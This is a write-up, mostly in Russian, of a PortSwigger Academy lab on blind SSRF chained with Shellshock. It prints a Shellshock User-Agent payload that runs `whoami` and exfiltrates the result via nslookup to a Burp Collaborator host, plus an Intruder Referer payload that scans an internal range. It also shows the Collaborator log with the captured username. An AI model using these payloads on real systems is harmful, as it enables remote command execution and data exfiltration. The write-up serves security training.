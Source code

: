 # Lab: Blind SSRF with Shellshock exploitation
EXPERT

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Решение
Установил расширение Collaborator Everywhere из встроеного магазина приложений BAppStore.

Добавил адрес лабы в скоуп, походил по страницам интернет-магазина. На вкладке Target в разделе Issues появилась информация о том, что коллаборатор отловил следующие запросы:
* HTTP (по значению из заголовка Referer)
* HTTP (по значению из заголовка User-Agent)
* DNS (по значению из заголовка Referer)

По-видимому, идея заключается в том, чтобы проэксплуатировать комбинацию из двух уязвимостей. Через SSRF в заголовке Referer отправить запрос к внутреннему серверу по адресу 192.168.0.X:8080, и передать в заголовке User-Agent этого запроса пейлоад для уявзимости Shellshock, выполняющий запрос к серверу Burp Collaborator.

### Shellshock
Скопировал пейлоад из Burp Collaborator и добавил к нему код `() { :; }; nslookup $(whoami).`:

`User-Agent: () { :; }; nslookup $(whoami).ymo54l3k34s5xf2ex6hnr8oqchi868ux.oastify.com`

### SSRF
Перебор диапазона чисел 0..255 для обращения к внутреннему серверу через значение заголовка Referer в Burp Intruder:

`Referer: http://192.168.0.§0§:8080`

После проведения атаки в коллабораторе появляется http-запрос и два dns-запроса. В поле Description dns-запроса можно прочесть:
```
The Collaborator server received a DNS lookup of type A for the domain name peter-W8Rilt.ymo54l3k34s5xf2ex6hnr8oqchi868ux.oastify.com.  The lookup was received from IP address 99.80.88.16:53760 at 2024-Apr-14 09:39:58.347 UTC.
```
Отправляю "peter-W8Rilt" в качестве подтверждения решения. Задание выполнено.
